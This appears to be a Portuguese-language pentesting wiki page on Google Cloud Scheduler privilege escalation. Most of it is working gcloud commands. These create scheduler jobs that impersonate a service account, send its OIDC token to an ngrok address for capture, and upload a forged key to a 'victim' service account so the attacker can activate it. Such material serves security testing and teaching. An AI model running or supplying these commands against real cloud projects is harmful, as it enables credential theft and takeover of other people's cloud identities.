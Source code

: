 # GCP - Cloud Scheduler Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Scheduler

Mais informações em:

{{#ref}}
../gcp-services/gcp-cloud-scheduler-enum.md
{{#endref}}

### `cloudscheduler.jobs.create`, `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Um atacante com essas permissões poderia explorar o **Cloud Scheduler** para **autenticar jobs cron como uma Conta de Serviço específica**. Ao elaborar uma solicitação HTTP POST, o atacante agenda ações, como criar um bucket de Storage, para serem executadas sob a identidade da Conta de Serviço. Este método aproveita a **capacidade do Scheduler de direcionar endpoints `*.googleapis.com` e autenticar solicitações**, permitindo que o atacante manipule endpoints da API do Google diretamente usando um simples comando `gcloud`.

- **Contate qualquer API do google via `googleapis.com` com cabeçalho de token OAuth**

Crie um novo bucket de Storage:
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com --headers "Content-Type=application/json" --location us-central1
```
Para escalar privilégios, um **atacante simplesmente cria uma solicitação HTTP direcionada à API desejada, se passando pela Conta de Serviço especificada**

- **Exfiltrar token da conta de serviço OIDC**
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
Se você precisar verificar a resposta HTTP, pode simplesmente **dar uma olhada nos logs da execução**.

### `cloudscheduler.jobs.update`, `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Como no cenário anterior, é possível **atualizar um scheduler já criado** para roubar o token ou realizar ações. Por exemplo:
```bash
gcloud scheduler jobs update http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
Outro exemplo para fazer upload de uma chave privada para um SA e se passar por ele:
```bash
# Generate local private key
openssl req -x509 -nodes -newkey rsa:2048 -days 365 \
-keyout /tmp/private_key.pem \
-out /tmp/public_key.pem \
-subj "/CN=unused"

# Remove last new line character of the public key
file_size=$(wc -c < /tmp/public_key.pem)
new_size=$((file_size - 1))
truncate -s $new_size /tmp/public_key.pem

# Update scheduler to upload the key to a SA
## For macOS: REMOVE THE `-w 0` FROM THE BASE64 COMMAND
gcloud scheduler jobs update http scheduler_lab_1 \
--schedule='* * * * *' \
--uri="https://iam.googleapis.com/v1/projects/$PROJECT_ID/serviceAccounts/victim@$PROJECT_ID.iam.gserviceaccount.com/keys:upload?alt=json" \
--message-body="{\"publicKeyData\": \"$(cat /tmp/public_key.pem | base64 -w 0)\"}" \
--update-headers "Content-Type=application/json" \
--location us-central1 \
--oauth-service-account-email privileged@$PROJECT_ID.iam.gserviceaccount.com

# Wait 1 min
sleep 60

# Check the logs to check it worked
gcloud logging read 'resource.type="cloud_scheduler_job" AND resource.labels.job_id="scheduler_lab_1" AND resource.labels.location="us-central1"
jsonPayload.@type="type.googleapis.com/google.cloud.scheduler.logging.AttemptFinished"' --limit 10 --project <project-id> --format=json

## If any  '"status": 200'  it means it worked!
## Note that this scheduler will be executed every minute and after a key has been created, all the other attempts to submit the same key will throw a: "status": 400

# Build the json to contact the SA
## Get privatekey in json format
file_content=$(<"/tmp/private_key.pem")
private_key_json=$(jq -Rn --arg str "$file_content" '$str')

## Get ID of the generated key
gcloud iam service-accounts keys list --iam-account=victim@$PROJECT_ID.iam.gserviceaccount.com

# Create the json in a file
## NOTE that you need to export your project-id in the env var PROJECT_ID
## and that this script is expecting the key ID to be the first one (check the `head`)
export PROJECT_ID=...
cat > /tmp/lab.json <<EOF
{
"type": "service_account",
"project_id": "$PROJECT_ID",
"private_key_id": "$(gcloud iam service-accounts keys list --iam-account=scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | cut -d " " -f 1 | grep -v KEY_ID | head -n 1)",
"private_key": $private_key_json,
"client_email": "scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com",
"client_id": "$(gcloud iam service-accounts describe scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | grep oauth2ClientId | cut -d "'" -f 2)",
"auth_uri": "https://accounts.google.com/o/oauth2/auth",
"token_uri": "https://oauth2.googleapis.com/token",
"auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
"client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/scheduler-lab-1-target%40$PROJECT_ID.iam.gserviceaccount.com",
"universe_domain": "googleapis.com"
}
EOF

# Activate the generated key
gcloud auth activate-service-account --key-file=/tmp/lab.json
```
## Referências

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
